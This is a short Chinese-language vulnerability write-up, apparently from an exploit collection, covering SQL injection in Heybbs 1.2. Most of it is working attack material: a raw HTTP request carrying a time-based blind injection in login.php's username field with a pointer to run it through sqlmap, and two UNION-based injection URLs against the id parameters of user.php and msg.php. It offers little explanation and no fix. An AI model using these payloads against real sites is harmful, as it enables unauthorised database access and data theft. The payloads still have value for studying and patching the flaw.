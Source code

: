 # Heybbs 1.2 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Heybb 1.2

## 三、复现过程

第一处注入存在于login.php文件的username参数处

```html
POST /php/login.php HTTP/1.1
Host: www.0-sec.org
Content-Length: 98
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.0-sec.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.0-sec.org/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qmpkek4l3ojr30gtodf6nj4hp4
Connection: close

username=123123' and (select 1 from (select(sleep(5)))accn) AND '1'='1&password=123123&verify=h4ir
```

将username标*放入sqlmap -r

第二处注入存在于user.php文件id参数处

Eg:

```html
http://www.0-sec.org/user.php?id=177 and 1=2 union select 1) ,user(),3,4,5,6,7,8,9,10
```

第三处注入存在于msg.php文件id参数处

Eg:

```html
http://www.0-sec.org/msg.php?id=1 and 1=2 union select 1) ,2,3,user(),5,6,7,8,9,10,11,12
```
